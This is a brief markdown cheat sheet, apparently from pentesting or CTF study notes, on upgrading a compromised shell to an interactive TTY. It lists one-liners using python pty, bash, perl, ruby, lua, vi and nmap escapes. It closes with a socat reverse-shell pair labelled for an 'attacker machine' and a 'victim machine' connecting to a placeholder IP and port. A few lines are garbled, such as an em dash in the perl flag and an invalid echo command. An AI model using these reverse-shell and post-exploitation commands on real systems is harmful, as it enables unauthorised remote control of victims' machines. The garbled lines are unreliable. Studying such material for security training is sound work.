 
# Spawning a TTY Shell


check if the shell is tty   by typing  **tty**

##python

    python -c 'import pty; pty.spawn("/bin/sh")'

    python3 -c 'import pty; pty.spawn("/bin/sh")'

##echo

    echo os.system('/bin/bash')

##bash

    /bin/bash -i

##sh

    /bin/sh -i

##perl

    perl —e 'exec "/bin/sh";'

    perl: exec "/bin/sh";

##ruby

    ruby: exec "/bin/sh"

##lua

    lua: os.execute('/bin/sh')

##IRB

    exec "/bin/sh"

##vi

    :!bash

    :set shell=/bin/bash:shell

##nmap

    !sh

##socat

    on attacker machine : socat -,raw,echo=0 tcp-listen:<port> 
    on victim mahcine   : socat exec:"/bin/bash -li",pty,stderr,setsid,sigint,sane tcp:<ip>:<port>  

##


